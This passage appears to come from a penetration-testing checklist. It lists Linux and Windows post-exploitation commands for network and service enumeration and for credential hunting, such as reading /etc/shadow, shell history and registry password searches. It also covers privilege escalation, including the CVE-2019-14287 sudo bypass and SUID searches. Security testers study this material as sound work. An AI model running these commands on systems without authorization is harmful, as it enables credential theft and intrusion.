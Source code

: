 ```bash
# Network configuration
ip addr show
route -n
arp -a
cat /etc/hosts

# Credential harvesting
cat /etc/passwd
cat /etc/shadow 2>/dev/null
find / -name "*.log" 2>/dev/null | head -20
history
cat ~/.bash_history
```

#### **Windows Post-Exploitation**
```cmd
REM System information
systeminfo
whoami /all
net user
net localgroup administrators
wmic qfe get Caption,Description,HotFixID,InstalledOn

REM Network enumeration  
ipconfig /all
route print
arp -a
netstat -ano
netsh wlan show profiles

REM Service enumeration
sc query
wmic service list brief
tasklist /svc

REM Credential hunting
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
dir C:\*password* /s /p
findstr /si password *.txt *.xml *.ini
```

### **Phase 7.2: Privilege Escalation**

#### **Linux Privilege Escalation**
```bash
# Automated enumeration tools
linpeas.sh
linenum.sh
linuxprivchecker.py

# Kernel exploits
uname -a  # Check kernel version
searchsploit linux kernel 4.15  # Example version

# Sudo misconfiguration
sudo -l
sudo -u#-1 /bin/bash  # CVE-2019-14287

# SUID binary exploitation
find / -perm -4000 -type f 2>/dev/null
./gtfobins_suid_binary

```